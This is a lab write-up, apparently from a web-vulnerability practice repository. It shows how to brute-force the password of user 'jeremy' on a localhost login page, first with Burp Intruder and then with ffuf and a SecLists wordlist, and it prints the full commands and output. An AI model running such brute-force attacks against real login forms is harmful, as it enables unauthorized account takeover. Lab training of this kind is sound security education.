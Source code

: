 # Attacking Authentication - Brute Force

- We have a login form with the user account named "Jeremy".

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/4b8e58dc-5780-4748-a687-83b7f3968818)

- We need brute-forcing to crack the password of a user named "Jeremy"
- For this let's intercept the request to the Burp suite.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/27555f00-a3f2-4dc1-849d-2eb7dc32bc52)

- After sending a request to the intruder we selected the payload password parameter by clicking on Add.
- Next step is to add a wordlist to start the brute-forcing the password on the user "Jeremy"

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/504493fe-d6c9-4faf-bae3-d5ab3068574e)

- On adding the wordlist as the payload of passwords we selected Start attack.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/de3fdf99-75e2-468b-9530-bb236ef24812)

- There is a page length difference in the result hope we have got our password successfully

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/b9e7f512-6980-4eb9-a09d-3734430f205e)

- On trying with username `jeremy` and password `letmein` we got successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/229f2a26-a60f-43ac-ae69-5bd5e7ab2b50)
![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/534c981e-7bc8-4107-9353-f29e1b81bc21)

## Alternate

- To make the process brute-forcing faster we will copy the intercepted request and copy it to a file in the local machine.
- Make a change in copied request by renaming the password parameter to "FUZZ" and saving it.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/1b0d0668-9795-4b3f-9766-1395eef0a1e6)

- Now, we use a tool named "FFUF" to make the brute-forcing process faster.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt`

```bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Host: localhost
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Origin: http://localhost
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 20ms]
    * FUZZ: letmein

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 20ms]
    * FUZZ: qwerty

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: password

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 47ms]
    * FUZZ: baseball

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: superman

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: zxcvbnm

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: 12345
------------snip------------------
[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: 222333

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 13ms]
    * FUZZ: armani

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: attack

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: anhyeuem

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: zenith

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: thomas1

[WARN] Caught keyboard interrupt (Ctrl-C)
```

- It is making numerous requests per second we need to filter out the "size: 1814" for getting clean results.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`

``` bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://localhost
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Host: localhost
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 1814
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 4ms]
    * FUZZ: letmein

:: Progress: [10000/10000] :: Job [1/1] :: 3846 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
- We successfully cracked the password "letmein".

